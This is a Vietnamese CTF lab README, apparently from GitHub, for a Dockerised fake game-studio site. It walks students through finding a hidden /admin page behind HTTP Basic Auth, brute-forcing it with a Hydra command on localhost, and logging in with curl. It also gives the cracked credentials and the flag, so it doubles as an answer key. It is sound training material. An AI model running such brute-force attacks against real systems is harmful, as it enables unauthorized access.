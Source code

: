 
# 🎮 Lugx Fortress: Brute the Admin

## 🧩 Cốt truyện
Lugx Gaming – một trong những studio game indie phát triển nhanh nhất châu Á – vừa ra mắt cổng quản trị nội bộ của họ, đặt tên là Lugx Fortress. Theo một nguồn tin mật, hệ thống này chứa thông tin nhạy cảm về dự án game sắp ra mắt cùng với flag chứng minh bạn đã truy cập trái phép thành công.
Tuy nhiên, cánh cửa dẫn vào admin được bảo vệ bởi một lớp HTTP Basic Authentication cổ điển – không có bất kỳ giao diện đăng nhập nào, không có form, không có gợi ý.
Tất cả những gì bạn có là giao diện trang chủ bóng bẩy và một cảm giác rằng “có gì đó đang bị che giấu”.

---
## 🎯 Nhiệm vụ của bạn
- Tìm ra cánh cửa ẩn (endpoint /admin).
- Phát hiện và nhận diện HTTP Basic Auth.
- Dò tìm thông tin đăng nhập (username/password) bằng kỹ thuật brute force.
- Truy cập vào khu vực admin và thu thập flag chứng minh bạn đã “phá tường thành Lugx”.
---

## 🕵️‍♂️ Bối cảnh thêm
- Bạn là một thực tập sinh an ninh mạng, được giao nhiệm vụ kiểm thử một phiên bản staging của hệ thống Lugx trước khi đưa vào production.
- CTO của Lugx để quên hệ thống bảo mật ở mức rất cơ bản, và muốn biết: liệu chỉ một lớp HTTP Basic Auth có đủ an toàn?
- “Không có gì cần giấu” – họ nói.
- Nhưng bạn biết: mọi cánh cửa đều có chìa khóa, nếu bạn biết cách lắng nghe... hoặc brute force.
---

## 🚀 Khởi động Lab

### 1. Yêu cầu hệ thống

- Docker và Docker Compose đã được cài đặt

### 2. Khởi chạy lab

```bash
git clone <repo_url> basic-auth-lugx
cd basic-auth-lugx
docker-compose up --build
```
![image](https://github.com/user-attachments/assets/ec0db540-23e3-467f-b249-d453c77f952c)

Truy cập trình duyệt: [http://localhost:8080](http://localhost:8080)

Bạn sẽ thấy giao diện của website Lugx Gaming như một trang bán game thực thụ.

---

## 🎓 Hướng dẫn học viên

### Bước 1: Khám phá trang chính

Mở trình duyệt và truy cập vào:
```
http://localhost:8080
```
![image](https://github.com/user-attachments/assets/640b6b37-d13d-458f-bafc-3dcf9e84ca8a)

Trang web hiện ra là một trang game (Lugx Gaming) với nội dung bình thường. Nhiệm vụ của bạn là **khám phá xem có khu vực nào đang ẩn không.**

### Bước 2: Fuzz endpoint ẩn

Thử truy cập các đường dẫn phổ biến như:
```
http://localhost:8080/admin
```
![image](https://github.com/user-attachments/assets/a21656e5-4150-4369-a40f-4203e8e60dd8)

Bạn sẽ nhận được phản hồi:
```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="Admin Area"
```
![image](https://github.com/user-attachments/assets/f6fb23cc-9ee2-420f-a553-db906e45b6fd)

=> Xác nhận đây là **HTTP Basic Authentication**.

### Bước 3: Brute force với Hydra
#### Giới thiệu về công cụ Hydra 
- Hydra là một trong những công cụ thường được Hacker và các nhà nghiên cứu bảo mật sử dụng. Đây công cụ có sẵn trong Kali Linux các phiên bản và được dùng để thực hiện các cuộc tấn công Brute Force Password hay còn gọi là dò mật khẩu.
#### Thực hành công cụ Hydra
Sử dụng `hydra` để brute force thông tin đăng nhập:

```bash
hydra -L wordlists/users.txt -P wordlists/passwords.txt localhost http-get /admin -s 8080
```
![image](https://github.com/user-attachments/assets/10d4baf4-aee5-4543-a262-3f812107d542)

Trong đó:
- `-L`: danh sách username
- `-P`: danh sách password
- `/admin`: endpoint được bảo vệ
- `-s 8080`: cổng dịch vụ

Kết quả sẽ trả về khi tìm được tài khoản đúng:


```
[8080][http-get] host: localhost   login: gamer   password: lugx@123
```

### Bước 4: Truy cập với thông tin đã brute force

Sau khi có được thông tin `gamer:lugx@123`, bạn có thể truy cập admin:

```bash
curl -u gamer:lugx@123 http://localhost:8080/admin
```


Kết quả:
```html
<h2>Welcome to the Admin Panel</h2>
<p>Your flag is: <code>FLAG{brute_force_success}</code></p>
```

🎉 **Bạn đã hoàn thành bài lab!**

---

## 📝 Ghi chú

- Đây là lab CTF mô phỏng thực tế. Trong thực tế, không nên sử dụng HTTP Basic Auth nếu không kết hợp HTTPS.
- Đừng quên kiểm tra source code để hiểu cách hoạt động của HTTP Auth trong Node.js/Express.

---

Happy Hacking! 🎮
